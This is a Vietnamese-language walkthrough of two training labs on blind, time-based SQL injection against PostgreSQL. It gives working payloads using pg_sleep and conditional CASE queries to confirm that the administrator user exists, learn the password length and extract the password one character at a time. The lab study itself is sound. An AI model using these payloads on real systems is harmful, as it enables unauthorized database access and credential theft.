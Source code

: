 1. **Lab 14: Blind SQL injection with time delays**

<aside>
💡

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay.

</aside>

- Truy vấn SQL được thực hiện đồng bộ (synchronously), ta có thể chèn một câu lệnh để gây độ trễ thời gian (time delay). Nếu trang web mất đúng thời gian ta đặt để phản hồi, ta sẽ biết rằng câu lệnh SQL của ta đã được thực thi.
- Mục tiêu: Khai thác lỗ hổng để tạo ra một độ trễ 10 giây trong phản hồi của trang web, chứng minh rằng ta có thể điều khiển truy vấn SQL.
- Dấu `||` trong SQL (đối với PostgreSQL) có nghĩa là nối chuỗi. Dấu `'` đóng chuỗi ban đầu, và `||`cho phép ta thêm mã SQL của mình.
- Khi thêm `'||`, truy vấn trở thành: 
`SELECT * FROM tracking WHERE tracking_id='x'||`
- Code: `TrackingId=x'||pg_sleep(10)--`
Trong đó  `pg_sleep(10)`là một hàm trong PostgreSQL, yêu cầu cơ sở dữ liệu "ngủ" (tạm dừng) trong 10 giây. Khi chèn vào truy vấn, nó sẽ làm cho truy vấn mất 10 giây để hoàn thành.
- Sau khi nhấn Send, ta thấy trang web mất đúng 10 giây để phản hồi. Điều này chứng minh rằng câu lệnh `pg_sleep(10)` đã được thực thi, và ta đã khai thác thành công lỗ hổng

1. **Lab 15: Blind SQL injection with time delays and information retrieval**

<aside>
💡

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

</aside>

- **Phân tích trang web:**
Vì truy vấn SQL được thực hiện đồng bộ (synchronously), tan có thể chèn một câu lệnh để gây độ trễ thời gian (time delay).
Nếu điều kiện ta đặt là đúng, trang web sẽ mất 10 giây để phản hồi (do pg_sleep(10)). Nếu sai, phản hồi sẽ ngay lập tức (do pg_sleep(0)).
Ta dùng độ trễ thời gian để suy ra thông tin (giống như chơi trò đoán đúng/sai, dựa trên thời gian trả lời)
- **Bước 1: Kiểm tra lỗ hổng bằng độ trễ thời gian:**
`TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`
⇒ Trang web mất 10 giây để phản hồi (vì 1=1 đúng, nên pg_sleep(10) được thực thi).
`TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`
⇒ Với 1=2 thì trang web phản hồi ngay lập tức (vì 1=2 sai, nên pg_sleep(0) được thực thi)
- **Bước 2: Xác nhận người dùng administrator tồn tại:**
`TrackingId=x'%3BSELECT+CASE+WHEN(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
⇒ Trang web mất 10 giây để phản hồi, nghĩa là điều kiện đúng, người dùng administrator tồn tại.
- **Bước 3: Xác định độ dài mật khẩu của administrator**
`TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
- **Bước 4: Đoán từng ký tự của mật khẩu**
`TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
